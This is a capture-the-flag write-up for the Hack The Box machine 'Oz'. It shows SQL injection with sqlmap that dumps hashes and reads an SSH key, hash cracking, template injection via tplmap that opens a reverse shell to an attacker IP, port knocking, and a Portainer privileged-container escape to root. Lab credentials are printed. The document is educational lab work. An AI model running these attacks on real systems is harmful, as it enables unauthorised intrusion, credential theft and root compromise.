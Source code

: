# Oz
[![Oz](https://www.hackthebox.eu/storage/avatars/58f516e793394d6df9f6d5d56e9b7ac6.png)](https://www.hackthebox.eu/home/machines/profile/152)

## Initial Foothold
### Nmap
We run nmap.
```sh
$ nmap -A -v 10.10.10.96
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-favicon: Unknown favicon MD5: 74DEB5B89F2D7EEE2CB1F05597640DE7
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET POST
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-favicon: Unknown favicon MD5: 131B03077D7717DBFF2E41E52F08BC7A
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login
|_http-trane-info: Problem with XML parsing of /evox/about
```

If we open it through a browser and try to bust directories, we eventually see that the server is set up to respond randomly in different requests. If we pay attention to responses, we realize that they return a single line. So if we only hide responses that return a single line we might get something.
```sh
$ wfuzz -c -z file,/usr/share/dirb/wordlists/common.txt --hl 0 http://10.10.10.96/FUZZ

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.96/FUZZ
Total requests: 4614

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      3 L	       6 W	     75 Ch	  ""
004245:  C=200      3 L	       6 W	     79 Ch	  "users"
````
Directory "users" seem to return different results. Indeed, if we view page source code there are more than one lines.
Now we can run dirb on this directory.
```sh
$ dirb http://10.10.10.96/users

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

---- Scanning URL: http://10.10.10.96/users/ ----

+ http://10.10.10.96/users/admin (CODE:200|SIZE:21)
```

We suspect that here might be a parameter, because of the json results we got, so why not try to inject.
```sh
$ sqlmap --risk 3 -u 10.10.10.96/users/admin --dump

+----+-------------+----------------------------------------------------------------------------------------+
| id | username    | password                                                                               |
+----+-------------+----------------------------------------------------------------------------------------+
| 1  | dorthi      | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 |
| 2  | tin.man     | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk |
| 3  | wizard.oz   | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY |
| 4  | coward.lyon | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY |
| 5  | toto        | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg |
| 6  | admin       | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ |
+----+-------------+----------------------------------------------------------------------------------------+
```
After a lot time of cracking hashes, for some, we come up with a password.
```sh
$ echo '$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY' > hash
$ john -form:PBKDF2-HMAC-SHA256 hash /usr/share/wordlists/rockyou.txt

wizardofoz22
```
From the sqlmap dump we did previously "sqlmap --risk 3 -u 10.10.10.96/users/admin --dump", we can see the ticket bellow:
```
Reissued new id_rsa and id_rsa.pub keys for ssh access to dorthi.
```
It is worthwhile to take a look if ssh keys are forgotten in dorthi's home directory.
```sh
$ sqlmap --risk 3 -u 10.10.10.96/users/admin --file-read=/home/dorthi/.ssh/id_rsa
```
Good, now we have a private ssh key for user dorthi but yet, it is passphrase protected and we don't have the credentials plus, port 22 it's not even open.
Back to the web api on port 8080 we login like wizard.oz
```
username: wizard.oz
password: wizardofoz22
```
At the top right of the page there is an add button from wich we should be able to create new ticket.
If we take a look at nmaps results, we see this:
```
http-server-header: Werkzeug/0.14.1 Python/2.7.14
```
The server use python [Template](http://jinja.pocoo.org/docs/2.10/templates/) which might be injectable.
The tool we are going to use is tplmap and it can be found [here](https://github.com/epinna/tplmap).
```sh
$ nc -lvp 5656
$ python2.7 tplmap.py -u "http://10.10.10.96:8080" -d "name=skata*&desc=skatd*" -c "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0MzU4MzQyNX0.BYHb6iO2zGT6jlgI89QmxUX8n1bDizJdDiRDD021BUo" --reverse-shell 10.10.14.16 5656
```
The values of the POST request are random and the token is the cookie of the current user session.

***Warning!*** The token expire after some time.

We now got a reverse shell. If we dig around a bit, we will figure out that we are inside a [docker](https://www.docker.com/) container. After some very basic enumeration we find some credentials as well as a port knock sequence (probably for the port 22), on the corresponding paths.
```sh
$ cat /containers/database/start.sh
-e MYSQL_USER=dorthi \
-e MYSQL_PASSWORD=N0Pl4c3L1keH0me \

$ cat /.secret/knockd.conf
sequence	= 40809:udp,50212:udp,46969:udp
```
Lets try port knocking and see if any ports open.
```sh
$ apt install knockd
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ nmap -A -v 10.10.10.96
Discovered open port 80/tcp on 10.10.10.96
Discovered open port 22/tcp on 10.10.10.96
Discovered open port 8080/tcp on 10.10.10.96
```
As we can see along with ports 80 and 8080, port 22 is now opened.
Lets connect with [ssh](/Oz/rsa_id).

***Warning!*** The port will close after 15 seconds.
```sh
$ chmod 500 id_rsa
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ ssh -i rsa_id dorthi@10.10.10.96
Enter passphrase for key 'id_rsa': N0Pl4c3L1keH0me
```
Finally... we have ssh connection.
Running the command bellow, we see that we can execute some docker commands as root.
```sh
$ sudo -l
User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls
```
We first run the ls command to check what networks are created and then we can inspect a specific network.
```sh
$ sudo /usr/bin/docker network ls
NETWORK ID          NAME                DRIVER              SCOPE
fb9c66028c43        bridge              bridge              local
49c1b0c16723        host                host                local
3ccc2aa17acf        none                null                local
48148eb6a512        prodnet             bridge              local

$ sudo /usr/bin/docker network inspect fb9c66028c43
"Name": "portainer-1.11.1",
"EndpointID": "6f700a3e7c7a7ae3b8accd6e89b1fd495da7805473901af9c71cbb02a1e4eafb",
"MacAddress": "02:42:ac:11:00:02",
"IPv4Address": "172.17.0.2/16",
"IPv6Address": ""
```
The machine is running portainer-1.11.1 web app on 172.17.0.2, where Portainer is a GUI for docker management.
All that remains now is to find the port and do ssh tuneling so we can have local access via our web browser.
```sh
$ nmap -A -v 172.17.0.2
Discovered open port 9000/tcp on 172.17.0.2
```
Great, portainer is running on port 9000, the default one.
Let's do the tunneling.
```sh
$ exit
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ ssh -L 9000:172.17.0.2:9000 -i rsa_id dorthi@10.10.10.96
Enter passphrase for key 'id_rsa': N0Pl4c3L1keH0me
```
Once we are logged in, we open up the browser and type.
```
127.0.0.1:9000
```
Now we have to login somehow. After some googling, [found out](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) that you can initialize the admin password.
Run this from the remote machine.
```sh
$ http POST 172.17.0.2:9000/api/users/admin/init Username="admin" Password="adminpassword"
HTTP/1.1 200 OK
Content-Length: 0
Content-Type: text/plain; charset=utf-8
Date: Thu, 06 Dec 2018 15:44:53 GMT
```
Now we can login with:
```
username: admin
password: adminpassword
```
Hit Login. Given the fact that Portainer is running as root, we can exploit the volumes feature. Volumes in docker let us share directories and files between host and container and while root doing that, we can share any file and directory we want.
Before we create a new container, we memorize a name of the listed images so we can put it on the next step. We click on ***Containers -> Add container***.
![portainer1](./images/Screenshot_2018-12-06_18-01-46.png)

Then we set ***Name, Image ***(the image name we memorized before)***, Entry Point, Working Dir, User, Console***, as in the image bellow.
![portainer2](./images/Screenshot_2018-12-06_18-04-23.png)

We move on to the ***Volumes*** tab and we set the following. ***Add volume button -> tick Path checkbox -> set path "/" for host -> set path "/host" for container***. What we did is shared the root directory of the host machine with a specific directory inside the container which name is "host" (a random name).
![portainer3](./images/Screenshot_2018-12-06_18-05-52.png)

Finally, on Security/Host tab we check the ***Privileged mode*** box and click ***Create***.
![portainer4](./images/Screenshot_2018-12-06_18-06-15.png)

Back in ***Containers*** tab again, we find our container we just created and click on its name.
![portainer5](./images/Screenshot_2018-12-06_18-06-51.png)

On ***Container details*** page, we click on ***console***.
![portainer6](./images/Screenshot_2018-12-06_18-07-08.png)

Next, hit ***Connect***.
![portainer7](./images/Screenshot_2018-12-06_18-07-27.png)

Now, we have an ***Interactive TTY*** session on our container.
Final step.
```sh
$ cat /host/root/root.txt
bGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxl
```
We got ***ROOT!!!***   



[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Oz](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
